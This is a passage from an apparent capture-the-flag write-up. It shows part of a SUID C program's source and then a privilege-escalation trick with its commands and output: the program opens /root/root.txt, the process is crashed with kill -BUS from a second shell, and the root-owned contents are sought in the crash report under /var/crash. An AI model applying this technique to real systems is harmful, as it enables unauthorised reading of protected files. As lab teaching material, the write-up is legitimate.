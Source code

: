 ```c
        printf("Path: ");
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}
```
Looking at the source code the write functionality looks intresting but the problem is that we cannot write in privilleged mode and the content of file so there is no possible way we can write something to high-privileged file or see the content of higher privileged file.

If we crash the execution of the code after it read a root file. We might be able to read the root flag from the memory dump of the crash logs.

Most of the time if we crash the process in between the report is most of the time saved in /var/crash in linux distro.

For this we need 2 shells
1 -> To run the count binary
2 -> To create crash
### Shell 1
```bash
dasith@secret:/$ cd /opt
dasith@secret:/opt$ ./count -p
/root/root.txt
y
```
Now let's go to shell 2 to crash the binary
### Shell 2
```bash
dasith@secret:/opt$ ps -aux | grep count
root         812  0.0  0.1 235664  7428 ?        Ssl  10:14   0:00 /usr/lib/accountsservice/accounts-daemon
dasith     67786  0.0  0.0   2488   580 ?        S    13:25   0:00 ./count -p
dasith     67788  0.0  0.0   6432   736 ?        S    13:25   0:00 grep --color=auto count
```
Now kill the process with the PID corresponding to ./count -p
```bash
dasith@secret:/opt$ kill -BUS 67786
```
Now you can check the shell1 if the process is been crashed.
### Shell 1
```bash
dasith@secret:/opt$ ./count -p
/root/root.txt
y
bash: [67393: 3 (255)] tcsetattr: Inappropriate ioctl for device
```
Indeed we have crashed the process so lets check the /var/crash for the report.
```bash
dasith@secret:/opt$ cd /var/crash
dasith@secret:/opt$ ls -al
total 88
drwxrwxrwt  2 root   root    4096 Oct 31 13:24 .
drwxr-xr-x 14 root   root    4096 Aug 13 05:12 ..
-rw-r-----  1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r-----  1 dasith dasith 28127 Oct 31 13:24 _opt_count.1000.crash
```